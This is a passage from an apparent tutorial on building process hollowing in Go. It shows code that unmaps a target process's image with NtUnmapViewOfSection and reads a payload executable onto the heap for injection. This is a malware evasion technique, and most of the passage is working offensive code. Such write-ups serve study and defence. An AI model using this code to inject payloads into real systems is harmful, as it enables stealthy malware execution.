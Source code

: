 And we got out image location. Now we can do the last step and unmap the memory region containing the image so that we will be able to load our target image later on. We start unmapping from `ImageBaseAddress`.

```go
// Trying to hollow target process
r1, _, _ = ntUnmapViewOfSection.Call(
    uintptr(processInfo.Process),
    peb.ImageBaseAddress,
)
if r1 != 0 {
    log.Fatal("[-] Failed to unmap target process image memory location")
}
fmt.Println("[+] Successfully unmapped target process memory")
```

### Copy payload PE into target process memory

Copying the payload PE was by far the hardest bit of the implementation. The main issue is making sure that all offsets match again once the PE is copied in.

First things first, we need to read the payload PE. The post I followed copied the entire PE into the heap and worked on that, and so did I. I think there are probably other ways of doing this bit.

```go
// Trying to write the payload executable to memory
file, err := windows.CreateFile(&injectedProcessUTF16[0], windows.GENERIC_READ, 0, nil, windows.OPEN_ALWAYS, 0, 0)
defer windows.CloseHandle(file)
if err != nil {
    fmt.Println("[-] Failed to open file")
    log.Fatal(err)
}
fileSizeUintptr, _, _ := getFileSize.Call(uintptr(file), uintptr(unsafe.Pointer(nil)))
fileSize := (uint32)(fileSizeUintptr)
fmt.Printf("[+] Read file %s, total of %d bytes\n", injectedProcess, fileSize)
heap, _, _ := getProcessHeap.Call()
heapHandle := (windows.Handle)(heap)
defer windows.CloseHandle(heapHandle)
if heap == 0 {
    log.Fatal("[-] Failed to get process heap")
}
// dwFlags = 0x00000008 should be HEAP_ZERO_MEMORY
heapStartPtr, _, _ := heapAlloc.Call(heap, uintptr((uint32)(8)), uintptr((uint32)(fileSize)))
if heapStartPtr == 0 {
    log.Fatal("[-] Failed allocate space on the heap")
}
bytesRead = 0
r1, _, _ = readFile.Call(
    uintptr(file),
    heapStartPtr, // This I could have not done with the funtion defined in the windows package
    uintptr((uint32)(fileSize)),
    uintptr((uint32)(bytesRead)),
    uintptr(unsafe.Pointer(nil)),
)
// Would expected to check that readBytes matches fileSize here, but apparently readBytes returns 0 if reading to
// EOF (which we are doing) as descibed here https://devblogs.microsoft.com/oldnewthing/20150121-00/?p=44863
if r1 == 0 {
    log.Fatal("[-] Failed to write payload to the heap")
}
fmt.Println("[+] Successfully written payload to heap")
```
